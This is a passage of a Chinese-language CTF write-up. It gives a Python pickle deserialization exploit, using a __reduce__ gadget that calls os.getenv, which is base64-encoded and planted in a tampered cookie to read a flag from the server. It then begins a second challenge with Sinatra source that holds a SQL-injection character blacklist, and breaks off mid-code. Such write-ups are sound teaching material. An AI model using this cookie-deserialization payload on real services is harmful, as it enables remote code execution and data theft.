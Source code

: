 `items=[]`代表返回值为NULL但是`items`的类型应该还是为`list`因此我们在构筑payload时应该让其`pickle.loads`后的类型为`list`。

写个脚本构造exp：

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return (os.getenv, ('FLAG',))

pickled = pickle.dumps([RCE()])#注意是个list类型
print(base64.b64encode(pickled).decode()) 
```

得到payload转包篡改cookie。

![image-20210411143557147](image-20210411143557147.png)

得到flag：

![image-20210411143808124](image-20210411143808124.png)

最后提下，os.getenv可以获得环境变量里的参数。

![image-20210411143857541](image-20210411143857541.png)



### Sea of Quills（复现）

这题也给了源码：

```js
require 'sinatra'
require 'sqlite3'

set :bind, "0.0.0.0"
set :port, 4567

get '/' do
	db = SQLite3::Database.new "quills.db"
	@row = db.execute( "select * from quills" )
	

	erb :index
end

get '/quills' do
	erb :quills	

end


post '/quills' do
	db = SQLite3::Database.new "quills.db"
	cols = params[:cols]
	lim = params[:limit]
	off = params[:offset]
	
	blacklist = ["-", "/", ";", "'", "\""]
	
	blacklist.each { |word|
		if cols.include? word
			return "beep boop sqli detected!"
```